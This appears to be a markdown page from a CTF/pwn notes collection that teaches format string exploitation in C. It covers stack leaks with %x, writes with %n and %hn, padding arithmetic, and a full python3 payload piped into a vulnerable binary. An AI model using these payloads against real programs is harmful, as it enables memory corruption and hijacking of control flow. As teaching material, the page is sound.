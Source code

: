 # Format string

 Format string exploit vulnerabilities in programs by abusing the '%x' power, reading and writing int the stack with printf() and sprintf() functions. It can leak sensitive information and even take control of the function.

### Table of Content

- [Before Exploit](#before-exploit)
- [Read the stack](#read-the-stack)
- [OverWrite data](#overwrite-data)
- [write complex value](#write-complex-value)
- [Code execution redirect](#code-execution-redirect)
- [Documentation](#docum)

## Before exploit

To run this exploit you need find in the code a printf function family, without quote.

Example: ```printf(user_buffer);```

instead of ```printf("%s", user_buffer)```

## Read the stack 

imagine this code:

```c
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
```

If you don't provide arg, and if you pass for example %x to prinf, it will read and print hexa from the next address on the stack.

You can print the entire stack. And read data.

![img](/pwn/img/error_printf.svg)
[website docu](https://axcheron.github.io/exploit-101-format-strings/)

## OverWrite Data 

You can overwrite data with printf and `%n`.

From the man: `The number of characters already written is stored in the integer pointed to by the argument of type int *. No argument is converted.`

```c
printf("AAAA%n", (int)a);
```

Will write, 4 in a.

4 because, it takes the value of 'AAAA' which is 4 bytes.

### OverWrite data with pointer to it

#### theory

When call to printf(), if there is no argument, you can try find through the stack, the pointer you want to overwrite.

```c
char *overwrite = "AAAA%34$n";
printf(overwrite);
```

Gonna overwrite 4 in the 4th address in the stack.

But if you don't know where is the pointer, or maybe it isn't on the stack, you can write in the buffer the address you wan't overwrite, and %n to exact addres of the start of the buffer.

#### Exploit

- find the start of the buffer:

```c
char *overwrite = "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.";
printf(overwrite);

AAAA00000200.f7e26620.00000000.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

By printing the stack, we can see that the pointer to the buffer is a the 4th address in the stack. so if we write in the buffer an address, and point to it with $x we can overwrite data int it with $n.

```c
char *overwrite = "\x8c\x98\x04\x08%4$n";
printf(overwrite);
```

So this overwrite 4 at the address 0x08049888c.

If you want to print a special value inside the pointer, you can give it a padding using this ```%<size>x```

```c
char *overwrite = "\x8c\x98\x04\x08%60x%4$n";
printf(overwrite);
```

This will print 60 byte + 4 (address) into pointer.

## Write complex value

### Problem

If we want print complex value at specific address, imagine try print 0x01025544 at address 0x08049810.

Lets suppose the program is 32bit little endian.

0x01025544 = 16930116 (in decimal) 

So we should print a large padding, and it could take to much time.

### Theory

There is a technique to print data in 2 byte with printf(): `%hn` (h for half).

So let's focus first 0x0000(2 bytes) store at the address 08049810 then last 0x0000 08049810 + 2, fill them with respectively 0x5544 and 0x0102 (little endian). 

### Exploit

To sum up : 

```py
0x0102 = 258(in decimal) -> 08049810 + 2 + 08049812
0x5544 = 21828(in decimal) -> 08049810
```

To adjust the padding, we can follow this rule : 

`padding = [The value we want] - [The bytes alredy wrote] = [The value to set].`

High order first cause the value is lower:

High order 258 - 8 = 250 (both addresses are 4 bytes)

Low order 21828 - 258 = 21570

So final exploit is : 

```py
python3 -c 'import sys; sys.stdout.buffer.write(b"\x10\x98\x04\x08" + b"\x12\x98\x04\x08" + b"%250x" + b"%13$hn" + b"%21570x" + b"%12$hn")' | ./vuln
```

- `b"\x10\x98\x04\x08"` is the first address.
- `b"\x12\x98\x04\x08"` is the second address.

so `%12$x` point to first address and `%13$x` to the second.

- `b"%250x"` is the first padding (remember 250 + 8 byte address = 258 = 0x102)
- `b"%13$hn"` we store 258 inside the second address because its little endian.
- `b"%21570x"` is the second padding (0x5544 - 0x102)
- `b"%12$hn"` is the first address, we store the value.

Bingo, `\x10\x98\x04\x08` point to 0x1025544 !


## Code execution redirect

*section need to be write*
 
### Docum

- [Insane Tuto](https://axcheron.github.io/exploit-101-format-strings/)

---

[**:arrow_right_hook: Back PWN**](/pwn/pwn.md)